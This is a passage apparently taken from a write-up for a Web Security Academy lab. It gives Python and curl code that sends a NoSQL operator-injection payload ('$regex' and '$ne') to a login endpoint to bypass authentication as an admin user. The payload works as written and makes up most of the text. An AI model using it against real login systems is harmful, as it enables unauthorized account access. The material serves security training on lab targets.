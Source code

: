 	#### Python
	This code will solve this challenge
	
	```python
	import requests
	
	url = 'https://0a6f00c903ee32228074712400a300a8.web-security-academy.net/login'
	
	headers = {
	  'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv',
	  'Content-Type': 'application/json',
	  'Cookie': 'session=Oeo2rw4ypJQwM1hYHAsO4yNGTqXwxzJq',
	  'Priority': 'u=0'
	}
	
	data = {
	  "username": {
	    "$regex": "admin*"
	  },
	  "password": {
	    "$ne": "invalid"
	  }
	}
	
	r = requests.post(url, headers=headers, json=data)
	
	print(r.status_code)
	print(r.text)
	```
	
	#### Curl
	
	```bash
	curl -X POST \
	    -H 'User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv' \
	    -H 'Content-Type:application/json' \
	    -H 'Cookie:session=Oeo2rw4ypJQwM1hYHAsO4yNGTqXwxzJq' \
	    -H 'Priority:u=0' \
	    -d '{
	  "username": {
	    "$regex": "admin*"
	  },
	  "password": {
	    "$ne": "invalid"
	  }
	}' \
	    'https://0a6f00c903ee32228074712400a300a8.web-security-academy.net/login'
	```


## Data Extraction Techniques

### Identifying Field Names
